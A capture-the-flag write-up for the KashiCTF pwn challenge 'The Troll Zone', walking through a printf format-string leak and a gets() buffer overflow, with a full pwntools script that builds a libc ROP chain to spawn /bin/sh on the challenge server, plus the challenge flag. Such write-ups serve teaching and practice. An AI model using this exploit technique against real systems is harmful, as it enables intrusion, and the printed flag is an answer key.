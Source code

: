 ```yaml
---
title: The Troll Zone
date: 2025-02-24 +05:30
author: kliprmimo
categories: [pwn]
tags: [gdb, rop]
---
```



# The Troll Zone
## Description
category: pwn\
solves: 43\
point value: 452
## Overview
The file we got is x86_64 binary \
![](attachments_md/kashi_checksec.png)

it does have very little protections enabled:\
`Partial RELRO` -  we can overwrite got entries\
`No canary found` - if there is buffer overflow we can overwrite return pointer without worrying about canary check triggering\
`NX enabled` - there is protection against execution of machine code placed on the stack\
`No Pie (0x400000)` - binary is always loaded at the same address in memory\
We also are provided libc file
## Exploitation plan
### Vulnerabilities
code decompiled by ida:\
![](attachments_md/kashi_main.png)\
![](attachments_md/kashi_flag.png)\
there are two vulnerabilities in this code:
- `printf(s)` - using `printf` on buffer controlled by user is very dangerous, using `%p` `%x` (and many others) we can read values saved in registers `( _RSI, RDX, RCX, R8, R9_)` and on stack. We can also have arbitrary memory write using `%n` modifier.
- `gets(v4)` - gets function is dangerous function that should never be used. This function takes data to specified buffer with no length checking whatsoever which can lead to buffer overflow
### How can this be exploited?
What is usually required to *typical* ROP attack is some gadgets to set registers to correct values for [execve syscall]([Linux System Call Table for x86 64 · Ryan A. Chapman](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)) on `/bin/sh` to get reverse shell. Sadly there are not enough gadgets in vuln binary. Luckily there is plenty of such gadgets in libc. \
But in order to use this technique we need to know where in memory is libc loaded.\
We can use vulnerable `printf` function to find address of some function in libc (lack of Pie does not work here). Using that we can find base address at which libc is loaded at. From there we can use ROPgadget program to generate python script that prepares correct payload for this ROP\
`ROPgadget --binary libc.so.6 --ropchain`
## Exploitation

### getting libc address
On we run patched binary in gdb and break on vulnerable `printf` (to patch binary you can use [pwninit]([io12/pwninit: pwninit - automate starting binary exploit challenges](https://github.com/io12/pwninit)) or just patchelf)\
using `%<number>$p` we dump values from registers and stack.\
for my exploit i used value at `%17$p` which happened to be `0x7ffff7e0924a`\
![](attachments_md/kashi_gdb_libc.png)\
using `vmmap` command we can find base address of libc (locally)\
thanks to that we can calculate offset that leaked address is at (from the base of libc)\
`0x2724a=0x7ffff7e0924a-0x7ffff7de2000`\
We can use that offset when we leak the address in remote exploit. We need to subtract this offset from leaked address and we get remote libc base address. now we just need to use this value in payload from ROPgadget

```python
#!/usr/bin/env python3

from pwn import context, process, remote, gdb, args, ELF
from struct import pack

context.log_level = 'info'
context.terminal = ["tmux", "splitw", "-h"]

addr = "kashictf.iitbhucybersec.in"
port = 1337
elf = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")
context.binary = elf
libc = elf.libc

gdbscript = '''
    tbreak main
    '''.format(**locals())


def conn(argv=[], *a, **kw):
    if args.LOCAL:
        r = process([elf.path])
        if args.GDB:
            return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        r = remote(addr, port)

    return r


leaked_offset = 0x7ffff7e0924a-0x7ffff7de2000


def main():
    log.info('Starting')

    r = conn()
    r.recvuntil(b'What do you want?')
    r.sendline(b'%17$p')
    r.recvuntil(b"0x")
    ptr = r.recvuntil(b"\n")
    ptr = ptr[:-1].decode()
    ptr = int(ptr, 16)
	log.info(f'Leaked addres {hex(ptr)}')

    libc_base = ptr - leaked_offset
    log.info(f'Got libc base {hex(libc_base)}')
    
    ### Output of ROPgadget
    p = b'a' * 40
    p += pack('<Q', libc_base + 0x00000000000fde7d)  # pop rdx ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c0)  # @ .data
    p += pack('<Q', libc_base + 0x000000000003f197)  # pop rax ; ret
    p += b'/bin//sh'
    p += pack('<Q', libc_base + 0x00000000000353ac)  # mov qword ptr [rdx], rax ; ret
    p += pack('<Q', libc_base + 0x00000000000fde7d)  # pop rdx ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c8)  # @ .data + 8
    p += pack('<Q', libc_base + 0x00000000000af985)  # xor rax, rax ; ret
    p += pack('<Q', libc_base + 0x00000000000353ac)  # mov qword ptr [rdx], rax ; ret
    p += pack('<Q', libc_base + 0x00000000000277e5)  # pop rdi ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c0)  # @ .data
    p += pack('<Q', libc_base + 0x0000000000028f99)  # pop rsi ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c8)  # @ .data + 8
    p += pack('<Q', libc_base + 0x00000000000fde7d)  # pop rdx ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c8)  # @ .data + 8
    p += pack('<Q', libc_base + 0x00000000000af985)  # xor rax, rax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x0000000000026428)  # syscall
    r.sendline(p)

    r.interactive()


if __name__ == "__main__":
    main()

```
Combining quite lengthy outpout of `ROPgadget` with our calculated libc address we get this exploit, that gives us reverse shell! \
![](attachments_md/kashi_flag.png)\
\
flag: `KashiCTF{did_some_trolling_right_there_3hbM6wHf}`